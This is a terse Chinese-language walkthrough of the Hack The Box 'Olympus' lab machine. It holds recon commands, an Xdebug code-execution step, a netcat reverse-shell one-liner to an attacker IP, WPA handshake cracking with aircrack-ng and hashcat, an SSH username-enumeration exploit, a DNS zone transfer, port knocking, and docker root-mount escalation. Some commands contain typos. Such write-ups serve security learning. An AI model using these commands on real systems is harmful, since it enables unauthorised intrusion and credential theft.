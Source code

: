 
#Olympus

* nmap
```
nmap -sC -sV -oA nmap/olympus 10.10.10.83
less nmap/olympus.nmap
```

``` 
nslookup
> server 10.10.10.83

dnsrecon -n 10.10.10.83 -r 10.0.0.0/0 --db olympus.db
dnsrecon -n 10.10.10.83 -r 172.16.0.0/12 --db olympus.db
dnsrecon -n 10.10.10.83 -r 192.168.0.0/16 --db olympus.db
```
* 查看文件时间，可以判断对应时间的bug
``` 
apt install exiftool
exiftool zeus.jpg
```
*  burpsuit 发送请求，返回信息中debug打开。chrome安装xdebug的插件
```
chromium --no-sandbox
chrome xdebug app
```
![](img/Olympus-img1.png)
![](img/Olympus-img2.png)
``` 
tcpdump -i tun0 icmp
```
到此通过debug可以执行远程代码，利用pentest monkey  reverse shell
``` 
system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.11234 >/tmp/f)
```

* 进入目标机，查看可疑文件captured.txt，将该文件提取到本机
* wireshark 打开该文件，并破解
``` 
aircrack-ng captured.cap -w /usr/share/wordlists/rockyou.txt

## 缺包
> https://github.com/hashcat/hashcat-utils
cd src
make
./cap2hccapx.bin captured.cap captured.hccapx
scp captured.hccapx kracken:
ssh kracken
mv captured.hccapx hashcat/hashes
cd hashcat
./hashcat --help | grep -i wpa
./hashcat -m 2500 hashes/captured.hccapx /usr/share/wordlists/rockyou.txt
```
将密码加入到文件中
![](img/Olympus-img3.png)
查看后并没有思路，转换思路

* 查看/etc/passwd ，发现由用户存在， cve-2018-15919
```
git clone https://github.com/Rhynorater/CVE-2018-15473-Exploit
cd CVE-2018-15473-Exploit/
python sshUsernameEnumExploit.py
cat exampleInput.txt
python sshUsernameEnumExploit.py --port 2222 --userList exampleInput.txt 10.10.10.83
```
神话人物名字做一个集合，然后进行爆破，得到icarus，根据之前得到的wifi的ssid和密码，进行尝试登录2222端口
``` 
ssh -p 2222 icarus@10.10.10.83
```
登录后查看help_of_the_gods.txt, 得到ctfolympus.htb

* dns挖掘ctfolympus.htb为域
``` 
dig axfr @i0.10.10.83 ctfolympus.htb 
```
![](img/Olympus-img4.png)
nmap扫描延迟，可以通过打开wireshark增加延迟
``` 
nmap -Pn -max-retries=0 --scan-delay=.2 -p 3456,8234,62431 10.10.10.83; ssh prometheus@10.10.10.83
```
* 进入目标机
```
docker run -ti olympia bash 
docker run -v /:/mnt/PleaseSubscribe -ti olympia bash

```


